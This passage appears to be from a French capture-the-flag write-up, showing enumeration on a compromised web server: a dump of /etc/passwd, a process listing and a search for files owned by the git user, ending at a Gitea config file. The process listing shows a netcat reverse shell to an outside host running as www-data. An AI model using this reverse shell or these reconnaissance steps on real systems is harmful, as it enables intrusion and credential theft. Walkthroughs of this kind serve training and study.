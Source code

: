 ```bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
mysql:x:105:106:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
git:x:107:109:Git Version Control,,,:/home/git:/bin/bash

```

On peut voir que le seul utilisateur qui possède un bash, hormis root, est l'user git.
On cherche à savoir si des processus sont executés par celui-ci : 

```bash
ps -aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  0.0  0.0   4504  1680 ?        Ss   20:32   0:00 /bin/sh /usr/local/bin/start.sh
root         9  0.0  0.0  26068  2572 ?        S    20:32   0:00 cron -f
root        40  0.0  0.0 288504 26208 ?        Ss   20:32   0:00 /usr/sbin/apache2 -k start
root        41  0.0  0.0  65512  6256 ?        S    20:32   0:00 /usr/sbin/sshd -D
www-data    42  0.0  0.0 289004 13644 ?        S    20:32   0:00 /usr/sbin/apache2 -k start
www-data    43  0.0  0.0 288988 12916 ?        S    20:32   0:00 /usr/sbin/apache2 -k start
www-data    44  0.0  0.0 288944 13376 ?        S    20:32   0:00 /usr/sbin/apache2 -k start
www-data    45  0.0  0.0 289016 14016 ?        S    20:32   0:00 /usr/sbin/apache2 -k start
www-data    49  0.0  0.0 289004 12992 ?        S    20:32   0:00 /usr/sbin/apache2 -k start
www-data    51  0.0  0.0 289012 13304 ?        S    20:32   0:00 /usr/sbin/apache2 -k start
www-data    54  0.0  0.0 289004 12992 ?        S    20:32   0:00 /usr/sbin/apache2 -k start
www-data   167  0.0  0.0 288988 12848 ?        S    20:55   0:00 /usr/sbin/apache2 -k start
www-data   454  0.0  0.0 288808 12596 ?        S    21:58   0:00 /usr/sbin/apache2 -k start
www-data   715  0.0  0.0 288808 12520 ?        S    22:44   0:00 /usr/sbin/apache2 -k start
www-data  1080  0.0  0.0   4504   792 ?        S    23:40   0:00 sh -c nc 172.30.0.14 1337 -e /bin/sh
www-data  1081  0.0  0.0   4504  1576 ?        S    23:40   0:00 sh
www-data  1130  0.0  0.0  34424  2792 ?        R    23:42   0:00 ps -aux

```

Nope...

On cherche les fichiers détennus par l'utilisateur git : 

```bash
find /var -user git  
/var/lib/gitea
/var/www/html/52e8b95db9d298bd03741e99abe57c8c1ff1fbd80bd94c366a7574baac7b1180

cd /var/lib/gitea
ls -la
total 16
drwxrwxr-x 1 root git  4096 May  9 17:30 .
drwxr-xr-x 1 root root 4096 May  9 20:32 ..
-rw-r--r-- 1 git  git  1592 Apr 17 00:59 app.ini
```
